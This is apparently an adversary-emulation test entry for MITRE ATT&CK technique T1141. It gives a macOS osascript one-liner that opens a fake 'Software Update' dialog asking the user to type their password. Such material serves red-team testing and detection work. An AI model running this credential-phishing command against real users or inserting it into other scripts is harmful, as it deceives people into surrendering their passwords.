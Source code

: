 # Input Prompt

MITRE ATT&CK Technique: [T1141](https://attack.mitre.org/wiki/Technique/T1141)


### Prompt User for Password (Local Phishing)

    osascript -e 'tell app "System Preferences" to activate' -e 'tell app "System Preferences" to activate' -e 'tell app "System Preferences" to display dialog "Software Update requires that you type your password to apply changes." & return & return  default answer "" with icon 1 with hidden answer with title "Software Update"'

http://fuzzynop.blogspot.com/2014/10/osascript-for-local-phishing.html

